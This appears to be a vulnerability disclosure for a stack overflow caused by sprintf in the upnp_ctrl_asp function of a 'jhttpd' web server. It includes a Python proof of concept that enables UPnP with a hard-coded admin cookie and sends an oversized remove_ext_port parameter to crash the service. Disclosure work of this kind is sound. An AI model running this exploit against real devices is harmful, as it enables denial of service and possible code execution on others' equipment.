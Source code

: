 <img width="1896" height="908" alt="image" src="https://github.com/user-attachments/assets/7e8826d5-1bb8-482c-a32b-692b6b4cc1cc" />
In the upnp_ctrl_asp function in the jhttpd program, there is a stack overflow vulnerability caused by the sprintf function, which allows an attacker to forge remove_ext_proto parameter or remove_ext_port parameter as an excessively long string, so as to splice to the stack variable when sprintf is spliced
poc：
```
import requests
url="http://172.26.25.103:7300/nat_base.asp?upnp_enable=1&upnp_mnp=0&upnp_waniface=0&exec_service=upnp-restart&_=1752864920837"
headers={"cookie":"wys_userid=admin,wys_passwd=520E1BFD4CDE217D0A5824AE7EA60632"}
response=requests.get(url=url,headers=headers)

url2="http://172.26.25.103:7300/upnp_ctrl.asp?remove_ext_proto=1&remove_ext_port=1"+"1"*0x1000
response2=requests.get(url=url2,headers=headers)
print(response2.text)
```

